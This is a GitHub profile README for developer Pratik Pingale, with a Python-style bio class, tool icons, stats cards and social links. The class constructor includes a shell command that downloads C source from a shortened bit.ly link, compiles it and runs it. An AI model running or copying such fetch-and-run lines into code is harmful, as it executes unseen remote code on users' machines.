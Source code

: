 <h1 align="center">Hi 👋, I'm Pratik Pingale 👨‍💻</h1>
<p align="center">
  <img src="https://readme-typing-svg.herokuapp.com?color=%2336BCF7&size=16&center=true&vCenter=true&width=485&lines=Just+a+novice.+Still+got+a+lot+to+learn.;Competitive+Coding+%3Ap;Loves+Open+Source+%E2%9D%A4%EF%B8%8F" alt="Just a novice. Still got a lot to learn." />
</p>

```python
class PROxZIMA:
  def __init__(self):
    subprocess.call("curl -sL 'bit.ly/pr0x21m4' | gcc -w -o name -xc - && ./name", shell=True)
    self.bio = {
      '- 💼 I’m currently working for': {'Convin.ai': 'https://convin.ai'},
      '- 🔭 I’m currently working on' : {'Prism'    : 'https://github.com/PROxZIMA/prism',
                                         'Sweet-Pop': 'https://github.com/PROxZIMA/Sweet-Pop'},
      '- 🌱 I’m currently learning'   : ['Django', 'C++', 'Python', 'Full Stack Development', 'Algo Trading'],
      '- 💬 Ask me anything'          : '¯\_(ツ)_/¯',
      '- 👨‍💻 My projects available at' : 'https://github.com/PROxZIMA?tab=repositories',
      '- 📄 Know about my experiences': 'https://proxzima.ml/resume',
      '- ⚡ Fun fact'                 : ('Proxima Centauri is a small, low-mass star located 4.2465 light-'
                                         'years away from the Sun in the southern constellation of Centaurus.')
    }

if __name__ == '__main__':
  import subprocess, pprint
  pprint.pprint(PROxZIMA().__dict__)
```
<br>

### - Tools/Interests 🔗
<p align="center">

[![Arch Linux](./src/tools/arch.svg)](#) &nbsp;&nbsp;
[![Pop!_OS](./src/tools/popos.svg)](#) &nbsp;&nbsp;
[![Windows](./src/tools/windows.svg)](#) &nbsp;&nbsp;
[![Android](./src/tools/android.svg)](#) &nbsp;&nbsp;
[![Firefox](./src/tools/firefox.svg)](#) &nbsp;&nbsp;
[![Git](./src/tools/git.svg)](#) &nbsp;&nbsp;
[![GitHub](./src/tools/github.svg)](#) &nbsp;&nbsp;
[![BitBucket](./src/tools/bitbucket.svg)](#) &nbsp;&nbsp;
[![Python](./src/tools/python.svg)](#) &nbsp;&nbsp;
[![C](./src/tools/c.svg)](#) &nbsp;&nbsp;
[![C++](./src/tools/cplusplus.svg)](#) &nbsp;&nbsp;
[![Java](./src/tools/java.svg)](#) &nbsp;&nbsp;
[![Kotlin](./src/tools/kotlin.svg)](#) &nbsp;&nbsp;
[![Bash](./src/tools/bash.svg)](#) &nbsp;&nbsp;
[![HTML5](./src/tools/html5.svg)](#) &nbsp;&nbsp;
[![CSS3](./src/tools/css3.svg)](#) &nbsp;&nbsp;
[![JavaScript](./src/tools/javascript.svg)](#) &nbsp;&nbsp;
[![TypeScript](./src/tools/typescript.svg)](#) &nbsp;&nbsp;
[![MySQL](./src/tools/mysql.svg)](#) &nbsp;&nbsp;
[![PostgreSQL](./src/tools/postgresql.svg)](#) &nbsp;&nbsp;
[![FireBase](./src/tools/firebase.svg)](#) &nbsp;&nbsp;
[![Numpy](./src/tools/numpy.svg)](#) &nbsp;&nbsp;
[![Pandas](./src/tools/pandas.svg)](#) &nbsp;&nbsp;
[![Jupyter](./src/tools/jupyter.svg)](#) &nbsp;&nbsp;
[![Django](./src/tools/django.svg)](#) &nbsp;&nbsp;
[![Flask](./src/tools/flask.svg)](#) &nbsp;&nbsp;
[![Node.js](./src/tools/nodejs.svg)](#) &nbsp;&nbsp;
[![React](./src/tools/react.svg)](#) &nbsp;&nbsp;
[![Google Colab](./src/tools/colab.svg)](#) &nbsp;&nbsp;
[![Back Arrow](./src/tools/arrow_back.svg)](#) &nbsp;&nbsp;
[![Google Cloud](./src/tools/cloud.svg)](https://www.qwiklabs.com/public_profiles/8ce32532-ca12-4a89-aed0-99c9316cae73) &nbsp;&nbsp;
[![CodePen](./src/tools/codepen.svg)](https://codepen.io/proxzima) &nbsp;&nbsp;
[![Hackerrank](./src/tools/hackerrank.svg)](https://www.hackerrank.com/PROxZIMA) &nbsp;&nbsp;
[![CodeChef](./src/tools/codechef.svg)](https://www.codechef.com/users/proxzima) &nbsp;&nbsp;
[![LeetCode](./src/tools/leetcode.svg)](https://leetcode.com/PROxZIMA) &nbsp;&nbsp;
[![Forward Arrow](./src/tools/arrow_forward.svg)](#) &nbsp;&nbsp;
[![Postman](./src/tools/postman.svg)](#) &nbsp;&nbsp;
[![Alacritty](./src/tools/alacritty.svg)](#) &nbsp;&nbsp;
[![NeoVim](./src/tools/neovim.svg)](#) &nbsp;&nbsp;
[![VS Codium](./src/tools/vscode.svg)](#) &nbsp;&nbsp;
[![Android Studio](./src/tools/android_studio.svg)](#)
</p>

### - Workspace 🖥️
<p align="center">
  <a href="#"><img src="./src/tools/graphics.svg" alt="NVIDIA 3050"></a>
  <a href="#"><img src="./src/tools/processor.svg" alt="AMD Ryzen 7 4800H"></a>
  <a href="#"><img src="./src/tools/laptop.svg" alt="Asus"></a>
</p>

### - Languages 🔭
<p align="center" >
  <a href="https://github.com/anuraghazra/github-readme-stats"><img src="https://github-readme-stats.vercel.app/api/top-langs/?username=proxzima&&show_icons=true&theme=radical&hide_border=true&layout=compact&custom_title=Languages%20I%20Use&langs_count=8" alt="proxzima"/></a>
</p>

### - Stats ⚡️
<a href="https://github.com/anuraghazra/github-readme-stats"><img src="https://github-readme-stats.vercel.app/api?username=proxzima&include_all_commits=true&count_private=true&show_icons=true&theme=radical&hide_border=true&custom_title=PROxZIMA%27s%20Github%20Stats" width="48%" alt="proxzima"/></a><a href="https://github.com/DenverCoder1/github-readme-streak-stats"><img align="right" src="https://github-readme-streak-stats.herokuapp.com?user=PROxZIMA&theme=radical&hide_border=true" width="48%" alt="My Streak"/></a>
<br>

## - Find me around the web 🌎
<p align="center">
  <a href="mailto:pratikbpingale9075@gmail.com"><img src="./src/social/gmail.svg" alt="gmail"></a>
  <a href="https://linkedin.com/in/pratik-pingale"><img src="./src/social/linkedin.svg" alt="pratik-pingale"/></a>
  <a href="https://www.instagram.com/pro_x_zima/"><img src="./src/social/instagram.svg" alt="pro_x_zima"/></a>
  <a href="https://twitter.com/pro_x_zima"><img src="./src/social/twitter.svg" alt="pro_x_zima"/></a>
  <a href="https://www.reddit.com/user/PratikPingale"><img src="./src/social/reddit.svg" alt="PratikPingale"/></a>
  <a href="https://discordapp.com/users/422274155509972992"><img src="./src/social/discord.svg" alt="PROxZIMA#7272"/></a>
  <a href="https://t.me/PROxZIMA"><img src="./src/social/telegram.svg" alt="PratikPingale"/></a>
  <a href="https://marketplace.visualstudio.com/publishers/PROxZIMA"><img src="./src/social/marketplace.svg" alt="PROxZIMA"/></a>
</p>

<p align="center">
  <img src="https://komarev.com/ghpvc/?username=PROxZIMA&label=Profile+Views&color=141321" alt="PROxZIMA" />
</p>

![](https://hit.yhype.me/github/profile?user_id=43103163)
